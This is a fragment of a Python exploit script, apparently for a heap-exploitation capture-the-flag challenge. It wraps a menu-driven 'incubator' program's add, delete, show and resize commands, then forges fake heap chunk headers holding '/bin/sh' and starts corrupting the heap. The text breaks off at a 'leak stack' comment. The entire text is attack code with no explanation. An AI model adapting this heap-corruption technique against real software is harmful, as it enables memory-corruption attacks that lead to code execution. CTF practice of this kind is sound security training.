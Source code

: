 ```python
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

class heap():
    c = 0
    page = 1
    smp = 2
    fixed = 3

def add(idx, size, heap_idx, content):
    ru("> ")
    sl("0")
    ru("Which incubator? ")
    sl(str(idx))
    ru("Size? ")
    sl(str(size))
    ru("> ")
    sl(str(heap_idx))
    ru("Label: ")
    sl(content)

def dele(idx, heap_idx):
    ru("> ")
    sl("1")
    ru("Which incubator? ")
    sl(str(idx))
    ru("> ")
    sl(str(heap_idx))

def show(idx):
    ru("> ")
    sl("2")
    ru("Which incubator? ")
    sl(str(idx))

def resize(idx, size, heap_idx):
    ru("> ")
    sl("3")
    ru("Which incubator? ")
    sl(str(idx))
    ru("size: ")
    sl(str(size))
    ru("> ")
    sl(str(heap_idx))

def bye():
    ru("> ")
    sl("4")

if __name__ == "__main__":
    fake1 = p64(0)
    fake1 += p64(0) + p64(0x21) + b"/bin/sh\x00".ljust(0x10, b"\x00")
    fake1 += p64(0) + p64(0x81)
    add(0, 0x40, heap.fixed, fake1)
    resize(0, 0x38, heap.fixed)

    add(1, 0x20, heap.fixed, b"\x11"*0x10)
    dele(1, heap.c)
    add(1, 0x70, heap.c, p64(0xdeadbeef))

    # leak stack
```